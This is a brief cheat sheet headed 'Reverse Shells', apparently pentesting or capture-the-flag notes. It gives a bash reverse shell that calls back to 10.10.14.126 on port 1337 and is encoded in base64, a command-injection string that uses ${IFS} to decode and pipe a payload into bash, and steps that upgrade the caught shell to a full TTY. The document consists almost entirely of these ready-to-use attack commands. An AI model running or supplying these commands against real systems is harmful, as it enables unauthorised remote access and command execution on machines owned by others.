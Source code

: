 # Reverse Shells


echo "bash -i >& /dev/tcp/10.10.14.126/1337 0>&1" | base64 -w 0


;echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash;


python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg


